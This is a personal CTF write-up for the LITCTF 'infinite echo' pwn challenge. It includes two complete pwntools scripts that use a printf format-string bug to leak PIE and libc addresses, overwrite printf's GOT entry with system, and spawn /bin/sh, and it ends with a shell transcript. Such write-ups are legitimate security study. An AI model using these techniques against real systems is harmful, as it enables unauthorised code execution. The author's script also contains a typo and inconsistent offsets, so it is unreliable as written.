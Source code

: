 

#format-string-leak #no-solve #GOT-overwrite 



![[ld-2.31.so]]

![[main]]

![[main.c]]

![[libc-2.31.so]]


## Reflection

I did not manage to get the flag this weekend. I managed to get an exploit working for the local version but ran into trouble when attempting to exploit the remote version. It quickly became evident there was a difference between my VM and the server. For example, while fuzzing, I could leak the main function address which was at `%43$p` on the stack locally, but this was at position `%45$p` on the version running on the server.

| remote                                                                                                                    | local                                                                                                                                    |
| ------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| 41: b'0x74fcfd283083\n'<br>42: b'0x1\n'<br>43: b'0x7ffde893af98\n'<br>44: b'0x1fd4477a0\n'<br>==45: b'0x56f8c943c1c9\n'== | 41: b'0x7fdcfdb93c8a\n'<br>42: b'0x7ffe0cd7e4f0\n'<br>==43: b'0x556a0dc931c9\n'==<br>44: b'0x10dc92040\n'<br>45: b'0x7ffe0cd7e508\n'<br> |
|                                                                                                                           |                                                                                                                                          |

After asking in the discord, someone suggested I use pwninit to make sure the binary was loading the given libc version not my local one. Now it's said, that makes sense. The script I managed to use locally is below: After using pwninit and patching the elf, i can see now what was going wrong. working solution posted 

Following this - [[pwninit]] will be used to patch the elf


#my-solution 
```
#!/usr/bin/env python3
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Function to be called by FmtStr
def send_payload(payload):
    io.sendline(payload)
    return io.recvline()

def exec_fmt(payload):
    p = process(exe)
    p.recvline()   
    p.sendline(payload)
    return  p.recvline()


exe = './main'

elf = context.binary = ELF(exe, checksec=False)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'error'

# ===========================================================
io = start()


format_string = FmtStr(exec_fmt)

# Leak main address
io.recvline()
io.sendline('%43$p'.encode())
main_address = int(io.recvline(), 16)
print("main address: ", hex(main_address))
elf.address = main_address - 0x11c9
print("piebase address: ", hex(elf.address))

# leak the libc_start_main+133
io.sendline('%61$p'.encode())
libc_start_main = int(io.recvline(), 16) - 133
libc_base = libc_start_main -  libc.symbols.__libc_start_main 
libc.address = libc_base

print("LIBC Base: ", hex(libc.address))
print(f"Value of elf.got['printf']: {hex(elf.got.printf)}")
print(f"Value of libc.symbols['system']: {hex(libc.symbols.systemsystem)}")

print("Address of what we want to overwrite: ", hex(elf.got.printf))
print("Address of what to overwrite it with: ", hex(libc.symbols.system))
payload = fmtstr_payload(6, {elf.got.printf : libc.symbols.system})

io.sendline(payload)
io.recvline

io.sendline(b'/bin/sh')

io.interactive()

```


#alt-solution - discord user TSUNE
```
from pwn import * 
e = ELF("main") 
libc = ELF("libc-2.31.so") 
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6") 
context.binary = e 
#p = e.process() 
p = remote("litctf.org", 31772) 
buf = 6 
""" not used.. ret = p64(0x000000000000101a) pop_rdi = p64(0x00000000000012c3) binsh = p64(next(libc.search(b"/bin/sh\x00"))) """ 
payload1 = b"%3$lx" 
#read+18 
print(p.recvline().decode()) 
p.sendline(payload1) 
addr = int(p.recvline().decode().strip(),16) 
print(f"read +18 @ {hex(addr)}") 
base = addr - 18 - libc.sym['read'] 
libc.address = base 
payload2 = b"%28$lx" 
p.sendline(payload2) 
addr = int(p.recvline().decode().strip(),16) 
print(f"base +0x40 @ {hex(addr)}") 
binbase = addr - 0x40 
e.address = binbase 
payload3 = fmtstr_payload(buf, {e.got['printf'] : libc.sym['system']}) p.sendline(payload3) p.sendline(b"/bin/sh") 
p.interactive()
```


### main.c
```
#include <stdio.h>
#include <unistd.h>

int main() {
	setbuf(stdout, 0x0);
	setbuf(stderr, 0x0);
	
	char buf[256];
	
	printf("Infinite Echo!\n");
	while (1 == 1) {
		buf[read(0, buf, 256) - 1] = 0;
		printf(buf);
		printf("\n");
	}
}
```

On first viewing, this looks like a format string vuln, but with the lack of any tangible target, we might need to overwrite something to pop a shell.

### Checksec:`

| RELRO         | STACK CANARY    | NX         | PIE         | RPATH    | RUNPATH    | Symbols    | FORTIFY | Fortified | Fortifiable | FILE |
| ------------- | --------------- | ---------- | ----------- | -------- | ---------- | ---------- | ------- | --------- | ----------- | ---- |
| Partial RELRO | No canary found | NX enabled | PIE enabled | No RPATH | No RUNPATH | 72 Symbols | No      | 0         | 2           | main |

### file:

```
─$ file main
main: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=17ab92a2379f88d5dbe7082cf0942e56204f54aa, for GNU/Linux 3.2.0, not stripped
```

Pie enabled - 

## Method:

To start with, Checksec and file elf details as above. Only partial relro so GOT overwrite should be possible with format string vuln

### Bypass PIE by finding PIE base
#### finding main offset

using objdump we can find the main offset:

`──(kali㉿kali)-[~/Documents/LITCTF 24/pwn/infinite echo]
`└─$ objdump -t main     
`00000000000011c9 g     F .text  0000000000000097              main`

`main - base offset = 0x11c9`

Now, after running the usual fuzzing script, we can see the main address is :
`43: b'558d52e901c9\n'`

If we subtract 0x11c9, that should give us the piebase

## Finding libc base

we now need to leak a value which can be used to determine libc base:

`23:0118│+008     0x7fffffffdd28 —▸ 0x7ffff7decc8a (__libc_start_call_main+122) ◂— mov edi, eax

This corresponds to:
`61: b'7fbd79d9cd45\n'`
Therefore, we can calculate libc base by finding the offset of this version of libc, subtracting 122 from the leaked address then subtracting the offset from the leaked address.

```
libc_start_main = int(io.recvline(), 16) - 133
libc_base = libc_start_main -  libc.symbols.__libc_start_main 
```


We've already calculated the position on the stack as 6 thanks to the fuzzing script so now we can craft the payload using fmtstr
```
print("Address of what we want to overwrite: ", hex(elf.got.printf))
print("Address of what to overwrite it with: ", hex(libc.symbols.system))
payload = fmtstr_payload(6, {elf.got.printf : libc.symbols.system})
```


Success!

```
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x5 bytes:
    b'kali\n'
kali
$  
```